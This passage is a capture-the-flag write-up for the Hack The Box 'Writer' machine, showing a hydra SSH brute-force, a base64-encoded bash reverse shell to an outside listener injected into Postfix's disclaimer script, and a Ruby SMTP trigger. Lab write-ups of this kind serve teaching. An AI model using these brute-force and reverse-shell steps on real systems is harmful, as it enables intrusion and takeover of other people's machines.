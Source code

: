 ```
salcadramin@archlinux ➜ Writer  sudo hydra -l kyle -P ~/pwn/wordlists/rockyou.txt ssh://10.10.11.101 -VV -f -t 60
```

Not so long after, we've found their password!

![hydra](/images/htb-writer/11.png)

And let's connect with ssh! (Someone was already here)

![shell 1](/images/htb-writer/12.png)

Let's check the ports see if we can find something vulnerable.

![netstat](/images/htb-writer/13.png)

We can get our user hash now, unfortunately `kyle` doesn't have sudo access so we'll try to reverse shell to `john` with SMTP. (No suprise 👀)

After some research I've come accross with this repository, which basically allows you to remap ports to desired one : https://github.com/cw1997/NATBypass

I'm going to compile it and upload to `kyle` with sftp.

```bash
alcadramin@archlinux ➜ ~  sftp kyle@10.10.11.101
kyle@10.10.11.101's password:
Connected to 10.10.11.101.
sftp> put /home/alcadramin/pwn/natbypass
```

Generate the reverse shell payload with base64.

```bash
alcadramin@archlinux ➜ ~  echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.174/7678 0>&1"' | base64
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc0LzMxMzYgMD4mMSI=
```

Let's run the tool and bind it to a random IP.

![Natbypass](/images/htb-writer/14.png)

Now we'll add our payload to `/etc/postfix/disclaimer` and listen through `ncat`.

![Revshell](/images/htb-writer/15.png)

```bash
echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc0Lzc2NzggMD4mMSI= | base64 -d | bash
```

Now that they're done, I'm gonna write a script with Ruby to send an email and execute the payload.

```rb
#!/usr/bin/env ruby

require 'net/smtp'
require 'openssl'
OpenSSL::SSL::VERIFY_PEER = OpenSSL::SSL::VERIFY_NONE

message = <<MESSAGE_END
Hey John, give me your shell pls.
MESSAGE_END

Net::SMTP.start('10.10.11.101', 3137) do |smtp|
  smtp.send_message message, 'kyle@10.10.11.101', 'john@10.10.11.101'
end
```
